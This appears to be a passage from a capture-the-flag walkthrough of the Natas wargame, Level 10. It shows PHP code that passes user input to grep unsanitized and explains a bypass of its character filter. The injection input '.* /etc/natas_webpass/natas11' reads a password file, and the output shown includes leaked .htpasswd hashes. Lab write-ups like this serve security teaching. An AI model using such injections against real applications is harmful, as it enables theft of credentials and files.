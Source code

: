 
Could this be done in a shorter way? Yes, however we will need it further down the road.

# Level 10

Level 10 is the same gist, however, there is some user input "sanitization".

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

The characters `;`, `|` and `&` are now disabled, but that won't stop us.
Remember how I said that Level 9 could be done in a shorter way?

Well, it turns out that `grep` can apply one regex to more than one file and that is what we are going to do.
Right now we still have this:

```bash
grep -i $key dictionary.txt
```

And the input is filtered for some characters, however they didn't block `"`, `*` or `.`,
this way we can define `$key` as being a the regex and another file!

Since now we want to match anything in order for the password to show up we will use `.*` and as a file,
our dear and beloved `/etc/natas_webpass/natas11` and our input will look like

```bash
.* /etc/natas_webpass/natas11
```

If for some reason your output is not sorted by file and the one of the first files isn't the password, use `Ctrl + F`.
Otherwise you probably got this:

```html
<div id="content">

For security reasons, we now filter on certain characters<br><br>
<form _lpchecked="1">
Find words containing: <input name="needle"><input type="submit" name="submit" value="Search"><br><br>
</form>


Output:
<pre>.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$XOXwo/z0$K/6kBzbw4cQ5exEWpW5OV0
.htpasswd:natas10:$1$mRklUuvs$D4FovAtQ6y2mb5vXLAy.P/
.htpasswd:natas10:$1$SpbdWYWN$qM554rKY7WrlXF5P6ErYN/
```